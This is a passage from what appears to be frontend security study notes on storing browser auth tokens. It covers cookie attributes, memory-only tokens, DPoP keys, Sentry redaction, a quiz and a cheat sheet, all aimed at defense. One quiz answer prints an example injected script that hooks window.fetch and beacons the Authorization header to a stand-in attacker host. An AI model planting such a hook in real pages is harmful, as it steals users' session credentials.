import type { Response } from 'express';

export function setSessionCookie(res: Response, sessionId: string) {
  res.cookie('__Host-sid', sessionId, {
    httpOnly: true,
    secure: true,
    sameSite: 'lax',
    path: '/',               // required by the __Host- prefix
    maxAge: 8 * 60 * 60 * 1000,
    // no `domain` → host-only, required by the __Host- prefix
  });
}

export function setRefreshCookie(res: Response, refreshToken: string) {
  // __Secure- (not __Host-) because __Host- would force Path=/ and we want a narrow path
  res.cookie('__Secure-rt', refreshToken, {
    httpOnly: true,
    secure: true,
    sameSite: 'strict',
    path: '/auth/refresh',   // only sent to the refresh endpoint
    maxAge: 14 * 24 * 60 * 60 * 1000,
  });
}

export function clearAuthCookies(res: Response) {
  // Attributes must match the ones used when setting, or the browser keeps the old cookie
  res.clearCookie('__Host-sid', { httpOnly: true, secure: true, sameSite: 'lax', path: '/' });
  res.clearCookie('__Secure-rt', { httpOnly: true, secure: true, sameSite: 'strict', path: '/auth/refresh' });
}
```

**Example 3 — Memory-only token module (no globals, no persistence):**
```typescript
// auth-token.ts — the only module that can see the token
let token: { value: string; expiresAt: number } | null = null;

export function setAccessToken(value: string, expiresInSec: number) {
  token = { value, expiresAt: Date.now() + expiresInSec * 1000 };
}

export function getAuthHeader(): Record<string, string> {
  if (!token || Date.now() > token.expiresAt - 30_000) return {}; // caller will refresh
  return { Authorization: `Bearer ${token.value}` };
}

export function clearAccessToken() {
  token = null;
}
// ❌ Don't: window.token = …, store it in Redux/Pinia/NgRx, or persist the store
```

**Example 4 — DPoP key pair with a non-extractable private key:**
```typescript
const DB = 'dpop', STORE = 'keys';

function openDb(): Promise<IDBDatabase> {
  return new Promise((resolve, reject) => {
    const req = indexedDB.open(DB, 1);
    req.onupgradeneeded = () => req.result.createObjectStore(STORE);
    req.onsuccess = () => resolve(req.result);
    req.onerror = () => reject(req.error);
  });
}

export async function getOrCreateKeyPair(): Promise<CryptoKeyPair> {
  const db = await openDb();
  const existing = await new Promise<CryptoKeyPair | undefined>((resolve, reject) => {
    const r = db.transaction(STORE).objectStore(STORE).get('kp');
    r.onsuccess = () => resolve(r.result);
    r.onerror = () => reject(r.error);
  });
  if (existing) return existing;

  const kp = await crypto.subtle.generateKey(
    { name: 'ECDSA', namedCurve: 'P-256' },
    false,                       // extractable: false → private key bytes can never be exported
    ['sign', 'verify'],
  );
  // CryptoKey objects are structured-cloneable, so IndexedDB stores the handle, not the raw key
  await new Promise<void>((resolve, reject) => {
    const tx = db.transaction(STORE, 'readwrite');
    tx.objectStore(STORE).put(kp, 'kp');
    tx.oncomplete = () => resolve();
    tx.onerror = () => reject(tx.error);
  });
  return kp;
}
// The DPoP proof JWT is then signed with crypto.subtle.sign({ name: 'ECDSA', hash: 'SHA-256' }, kp.privateKey, …).
// Use a maintained DPoP/OIDC library for proof construction in production.
```

**Example 5 — Scrubbing tokens from error tracking (Sentry):**
```typescript
import * as Sentry from '@sentry/react';

const SECRET_KEYS = /authorization|cookie|token|secret|password/i;

Sentry.init({
  dsn: import.meta.env.VITE_SENTRY_DSN,
  sendDefaultPii: false,
  beforeSend(event) {
    const headers = event.request?.headers;
    if (headers) for (const k of Object.keys(headers)) if (SECRET_KEYS.test(k)) headers[k] = '[redacted]';
    if (event.request?.url) event.request.url = event.request.url.replace(/([?&](access_token|token|code)=)[^&]+/g, '$1[redacted]');
    return event;
  },
});
```

**Example 6 — Same idea across stacks:**
```typescript
// Vue / Pinia — keep the token out of the persisted store
export const useAuth = defineStore('auth', () => {
  const user = ref<User | null>(null);          // OK to show in UI
  // token lives in auth-token.ts (Example 3), NOT in this store
  return { user };
}); // and do NOT add this store to pinia-plugin-persistedstate

// Angular — interceptor reads the header from a private service field
@Injectable({ providedIn: 'root' })
export class TokenService {
  #token: string | null = null;                 // ES private field, not exposed on window
  set(t: string) { this.#token = t; }
  header() { return this.#token ? { Authorization: `Bearer ${this.#token}` } : {}; }
}

// SvelteKit — the cookie is read only on the server
// src/hooks.server.ts: event.cookies.get('__Host-sid')  → event.locals.user
// Never return the session id or tokens from a load function to the browser.
```

---

## Key Points Summary

| Concept | One-Line Explanation |
|---|---|
| **Steal vs use** | Storage decides whether XSS can take a token away; nothing stops XSS using it on-page |
| **`localStorage`** | Readable by every script, persistent — never for credentials |
| **`HttpOnly` cookie** | Invisible to JS, sent automatically — needs `SameSite` + CSRF defense |
| **`__Host-` prefix** | Forces `Secure`, `Path=/`, no `Domain` — blocks cookie tossing |
| **`SameSite`** | Set it explicitly; only Chromium defaults to `Lax` |
| **Memory token** | Gone on reload, but hookable by injected script — keep short-lived and private |
| **Worker vault** | Hides the token from the main thread; still allows session riding |
| **BFF session** | Tokens never reach the browser — best default with OAuth |
| **DPoP** | Token bound to a non-extractable key; stolen token alone is useless |
| **Rotation** | New refresh token per use; reuse revokes the family |
| **Leaks** | URLs, logs, telemetry, SSR state, HAR files — scrub them all |
| **Mobile** | Keychain / Keystore, never `AsyncStorage` or plain preferences |

---

## Test Your Understanding

**Q1 (Basic):**
Why is `localStorage` considered unsafe for auth tokens when `sessionStorage` "clears when the tab closes"? Is `sessionStorage` any better?

<details>
<summary>Answer</summary>

Both are readable by **any JavaScript running on the origin**, so a single XSS bug or a compromised third-party script can read the token and send it to an attacker, who can then use it from anywhere until it expires. `sessionStorage` only shortens persistence (per tab, cleared on close). It doesn't change the exfiltration risk at all, and a duplicated tab copies it. Neither should hold credentials. `sessionStorage` is fine for short-lived, non-credential redirect state such as a PKCE verifier and `state`.
</details>

**Q2 (Application):**
Write the `Set-Cookie` header for a session ID on `app.example.com` that is HTTPS-only, invisible to JavaScript, can't be set or overwritten from the sibling subdomain `blog.example.com`, survives 8 hours, and still logs the user in when they click a link in an email. Explain each part.

<details>
<summary>Answer</summary>

```http
Set-Cookie: __Host-sid=<random>; Path=/; Secure; HttpOnly; SameSite=Lax; Max-Age=28800
```
- `__Host-` prefix: the browser rejects it unless it's `Secure`, `Path=/` and has **no `Domain`**. That makes it host-only and stops `blog.example.com` from setting or shadowing it (cookie tossing).
- `Secure`: HTTPS only.
- `HttpOnly`: not readable via `document.cookie`, so XSS can't exfiltrate it.
- `SameSite=Lax`: sent on top-level `GET` navigations from other sites (the email link works), but not on cross-site `POST`s or subresource requests, which limits CSRF. `Strict` would break the email-link login.
- `Max-Age=28800`: 8 hours. The server-side session should expire at the same time.
</details>

**Q3 (Tricky):**
A team keeps the access token in a module-scoped variable and says "XSS can't read it, so we're safe". Show how an injected script could still obtain it, and what reduces the risk.

<details>
<summary>Answer</summary>

Injected script runs in the same JavaScript realm, so it can **wrap the network APIs your code uses**:
```javascript
const orig = window.fetch;
window.fetch = (input, init) => {
  const auth = new Headers(init?.headers).get('Authorization');
  if (auth) navigator.sendBeacon('https://attacker.example/t', auth);
  return orig(input, init);
};
```
The next API call hands over the token. Payloads can also reach exposed stores or devtools hooks. Risk reducers: a strict **CSP** (block injected scripts, and `connect-src` limits where data can be sent), **Trusted Types**, short access-token lifetimes, no global references, and, more fundamentally, moving tokens out of the page (BFF) or binding them to a key (DPoP) so a stolen copy is worthless.
</details>

**Q4 (Tricky):**
"We use `HttpOnly` cookies, so we don't need CSRF protection — and we use bearer headers, so we don't need `HttpOnly`." What's wrong with each half of this sentence?

<details>
<summary>Answer</summary>

- **First half:** `HttpOnly` only hides the cookie from JavaScript. The browser still **attaches it automatically** to requests, including ones triggered by other sites (forms, images, navigations). That automatic sending is exactly what CSRF exploits, so cookie-based auth needs `SameSite` plus a CSRF token or `Origin`/`Sec-Fetch-Site` validation on state-changing requests.
- **Second half:** bearer headers aren't sent automatically, so CSRF isn't the issue. But the token has to be readable by JS to set the header, which is precisely the **XSS exfiltration** risk that `HttpOnly` cookies avoid. The two mechanisms trade one risk for the other. A BFF with an `HttpOnly` cookie plus CSRF defense handles both.
</details>

**Q5 (Application):**
Your React Native app stores the refresh token in `AsyncStorage`. A security review flags it. What do you change, and does anything change for the access token?

<details>
<summary>Answer</summary>

`AsyncStorage` is **unencrypted** app storage, readable on rooted/jailbroken devices, in some backups and by anything that can access the app's data directory. Move the refresh token to the platform secure store: **Keychain** on iOS and **Keystore-backed** storage on Android, via `react-native-keychain` or `expo-secure-store`. Use an accessibility class such as "this device only, when unlocked" so it isn't migrated in backups. Keep the **access token in memory** (short-lived), rotate refresh tokens on each use, and make sure the login uses Authorization Code + PKCE in the system browser, not an embedded WebView.
</details>

**Q6 (System design):**
A static SPA on a CDN must call a third-party API that only accepts OAuth bearer tokens from a provider you don't control. You cannot run a backend this quarter. Design the most secure token-storage approach and list what you'd tell the security reviewer about residual risk.

<details>
<summary>Answer</summary>

- **Flow:** Authorization Code + PKCE in the browser (certified OIDC library), exact redirect URI, `state`/`nonce`.
- **Access token:** in **memory only**, inside a private module or a **dedicated worker vault** that performs API calls, never in Web Storage or global state. Short lifetime (minutes).
- **Refresh token:** **rotating** with reuse detection, and **DPoP-bound** if the provider supports it (non-extractable key in IndexedDB). Coordinate refreshes across tabs with a Web Lock.
- **Hardening:** strict CSP with nonces or hashes, `connect-src` limited to the provider and API, Trusted Types, SRI for any third-party script, minimal third-party scripts, telemetry scrubbing, no tokens in URLs.
- **Residual risk to state honestly:** XSS can still **use** the session while the page is open and, without DPoP, could exfiltrate a token captured from a request. Refresh tokens live in the browser, unlike a BFF design. Recommend a same-site BFF as the follow-up architecture once a server is available.
</details>

---

## Cheat Sheet

**Key Definitions:**
- **Exfiltration:** Copying a credential out of the browser for use elsewhere
- **Session riding:** Using the victim's credentials from injected script while the page is open
- **`HttpOnly`:** Cookie flag hiding the cookie from JS
- **`__Host-` / `__Secure-`:** Cookie prefixes enforced by browsers
- **Sender-constrained token:** Usable only with a key the client holds (DPoP, mTLS)
- **Non-extractable `CryptoKey`:** Web Crypto key whose raw bytes can't be exported
- **Worker vault:** Token kept in a worker's memory; main thread never sees it

**Quick Reference:**
```text
Session ID / BFF cookie  → Set-Cookie: __Host-sid=…; Path=/; Secure; HttpOnly; SameSite=Lax; Max-Age=…
Refresh token (cookie)   → HttpOnly; Secure; SameSite=Strict; narrow Path; rotate on every use
Access token (SPA)       → memory only (module closure / worker), lifetime in minutes
PKCE verifier / state    → sessionStorage, deleted after the callback
DPoP key                 → crypto.subtle.generateKey(…, extractable=false) stored in IndexedDB
Mobile                   → Keychain / Keystore (react-native-keychain, expo-secure-store)

Never:  localStorage / sessionStorage / readable cookies for credentials
        tokens in URLs, SSR HTML, logs, analytics, persisted stores
Always: explicit SameSite · Secure · HttpOnly · host-only cookies · CSP · short lifetimes
Remember: storage limits theft, not use — XSS prevention comes first
```

**Common Mistakes to Avoid:**

| Mistake | Why Wrong | Fix |
|---|---|---|
| JWT in `localStorage` | Any XSS or third-party script can exfiltrate it | `HttpOnly` cookie / BFF; memory if browser-only |
| Believing `HttpOnly` = XSS-proof | Injected script can still send authenticated requests | Prevent XSS (CSP, Trusted Types, escaping) |
| Cookie auth without CSRF defense | Browser attaches cookies to forged requests | `SameSite` + CSRF token / Origin checks |
| Relying on default `SameSite` | Only Chromium defaults to `Lax` | Set `SameSite` explicitly |
| `Domain=example.com` on auth cookies | Every subdomain receives (and can toss) it | Host-only with `__Host-` prefix |
| Token in Redux/Pinia store with persistence | Written to `localStorage`, visible in devtools | Keep tokens outside state stores |
| Tokens in query strings or WebSocket URLs | Logged by servers, proxies, history | Headers, cookies, or first-message tickets |
| SSR state containing tokens | Ends up in HTML, caches and logs | Only send public user data to the client |
| Long-lived non-rotating refresh tokens in the browser | Stolen once = access for weeks | Rotation + reuse detection, or keep server-side |
| Storing secrets in a Service Worker global | SW is terminated when idle; state disappears | Worker vault, BFF, or re-fetch on demand |
| `AsyncStorage` / SharedPreferences for tokens | Unencrypted at rest | Keychain / Keystore |
| Error tracker capturing headers | Tokens land in a third-party dashboard | Scrub in `beforeSend`, disable PII capture |

---

## References & Further Reading

**Core docs**
- MDN: [Using HTTP cookies](https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/Cookies) · [`Set-Cookie`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Set-Cookie)
- MDN: [`Set-Cookie` — `Partitioned` attribute (CHIPS)](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Set-Cookie#partitioned)
- MDN: [`SubtleCrypto.generateKey()`](https://developer.mozilla.org/en-US/docs/Web/API/SubtleCrypto/generateKey) · [`CryptoKey.extractable`](https://developer.mozilla.org/en-US/docs/Web/API/CryptoKey/extractable)
- MDN: [Web Storage API](https://developer.mozilla.org/en-US/docs/Web/API/Web_Storage_API) · [`Referrer-Policy`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Referrer-Policy)
- web.dev: [SameSite cookies explained](https://web.dev/articles/samesite-cookies-explained)

**Security guidance**
- OWASP: [HTML5 Security Cheat Sheet — Local Storage](https://cheatsheetseries.owasp.org/cheatsheets/HTML5_Security_Cheat_Sheet.html#local-storage)
- OWASP: [Session Management Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Session_Management_Cheat_Sheet.html)
- OWASP: [JSON Web Token Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/JSON_Web_Token_for_Java_Cheat_Sheet.html)
- IETF: [OAuth 2.0 for Browser-Based Applications (draft) — token storage and threats](https://datatracker.ietf.org/doc/draft-ietf-oauth-browser-based-apps/)

**Specs**
- IETF: [RFC 6265 — HTTP State Management (cookies)](https://www.rfc-editor.org/rfc/rfc6265) · [RFC 6265bis draft (cookie prefixes, SameSite)](https://datatracker.ietf.org/doc/draft-ietf-httpbis-rfc6265bis/)
- IETF: [RFC 9449 — DPoP](https://www.rfc-editor.org/rfc/rfc9449) · [RFC 8705 — mTLS-bound tokens](https://www.rfc-editor.org/rfc/rfc8705) · [RFC 9700 — OAuth 2.0 Security BCP](https://www.rfc-editor.org/rfc/rfc9700)
- W3C: [Web Cryptography API](https://www.w3.org/TR/WebCryptoAPI/)
- [Device Bound Session Credentials (explainer and spec repository)](https://github.com/WICG/dbsc)

**Platform docs**
- WebKit: [Full Third-Party Cookie Blocking and More (ITP)](https://webkit.org/blog/10218/full-third-party-cookie-blocking-and-more/)
- Apple: [Keychain Services](https://developer.apple.com/documentation/security/keychain-services)
- Android: [Android Keystore system](https://developer.android.com/privacy-and-security/keystore)
- Expo: [SecureStore](https://docs.expo.dev/versions/latest/sdk/securestore/) · Electron: [`safeStorage`](https://www.electronjs.org/docs/latest/api/safe-storage)

---

> **Previous Topic:** [Authentication Flows in SPAs](./authentication-flows-in-spas.md)
> — Sessions, tokens, OAuth 2.0 / OIDC with PKCE, BFF, refresh and logout

> **Next Topic:** [Subresource Integrity (SRI)](./subresource-integrity-sri.md)
> — Making sure the scripts and styles you load are exactly the bytes you expect

*Saved on: 2026-11-06 | Repo: Frontend System Design Learning Notes*
